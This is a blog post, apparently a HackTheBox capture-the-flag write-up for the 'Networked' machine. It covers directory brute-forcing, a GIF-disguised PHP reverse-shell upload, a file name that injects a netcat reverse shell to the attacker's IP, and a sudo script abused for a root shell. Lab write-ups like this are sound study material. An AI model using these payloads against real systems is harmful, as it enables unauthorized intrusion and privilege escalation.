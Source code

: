 ```yaml
---
layout: post
title:  Networked
date:   2019-11-16
categories: htb-writeup
---
```


{:.text-centered}
## NETWORKED@HTB
![Banner](../../../../assets/img/networked/Banner.png){:.image-centered}

Networked is an easy box from hackthebox. Ok let’s start.

### Quick Hack:

__User:__  Port Scan > 80/http > view-source or dirbuster > uploads.php & photos.php > php file upload > reverse shell > user home directory > crontab.guly, check_attack.php > create file in /uploads dir > rev shell as user guly > user.txt

__Root:__  guly > sudo –l > sudo permission for execution of changename.sh without password > run it accordingly > root.txt

### US3R
Run nmap to find open ports. Nmap will show result like this:

![nmap scan](../../../../assets/img/networked/nmap.png){:.image-left}

We have two open ports; 22 is ssh and 80 is http. Open it in browser and there is nothing interesting so let’s view source. 

![upload path](../../../../assets/img/networked/upload.png){:.image-left}

There is a comment about upload and gallery. So, put uploads.php in url and you can find upload page but it says it should be an image file. you can also find photos.php where you can see uploaded files.
[You may not be able to find the uploads.php and photos.php manually so here you can run dirbuster or gobuster to directory brute force:

    gobuster dir –u http://10.10.10.146/ -w /usr/share/wordlist/dirbuster/directory-list-2.3-medium.txt –x php

It will give what you need]
Now you have to find a way how to upload reverse shell. As it is running php download a php reverse shell script from google, edit the IP and port. As it says it should be an image file there should be some filtering which you have to bypass. Change the name of your shell script.

    mv php-reverse-shell.php php-reverse-shell.php.gif 

This isn’t enough you have to add magic byte of GIF file at the begging of the shell, for gif it is GIF89;a

![shell](../../../../assets/img/networked/shell.php.png){:.image-left}

Ok, now set up a netcat listener on the port you set up in script, upload the file and access the photos.php instantly you will get a reverse shell as apache. Go to user home directory, you will find the user flag but you can’t read it as apache. You have to be guly to get it.

![apache](../../../../assets/img/networked/apache.png){:.image-left}

Read crontab.guly and check_attack.php . 

![crontab](../../../../assets/img/networked/crontab.guly.png){:.image-left}

Crontab says there is a cron running for the script check_attack.php. Let’s check this php script.

![php script](../../../../assets/img/networked/check_attack.php.png){:.image-left}

Read it carefully. If you put a file in /var/www/html/uploads directory its name will be value of $value variable. So, if the name of the file is an executable command, it will be executed. This box has netcat installed so let’s try to get a netcat reverse shell. Go to /uploads directory, and create a file

    touch “;nc –c bash <your ip> 443;#”

set an nc listener on port 443 and within a minute you will get a reverse shell as guly.
 
![user flag](../../../../assets/img/networked/user.txt.png){:.image-left}


## R00T
Getting root is easy. Type 

    sudo –l

as guly to see what permission this user has.
 
![sudo path](../../../../assets/img/networked/prevesc_path.png){:.image-left}

guly can run a script as sudo without password. Go to that directory and try to run it as sudo. It asks for some arguments.
 
![hint to root](../../../../assets/img/networked/prevesc_hint.png){:.image-left}

See at the error message. base64 –decode is given as input and it treats –decode as a command, so what you put here after a space is treated as a command.[Read more about this vulnarebility](https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclouser&qid=e026a0c5f83df4fd532442e1324ffa4f)

Now try this: Put

    /bin/bash

after a space and you get shell as root. Yup that’s it.
 
![root flag](../../../../assets/img/networked/root.txt.png){:.image-left}

Hope you enjoyed; Happy Hacking.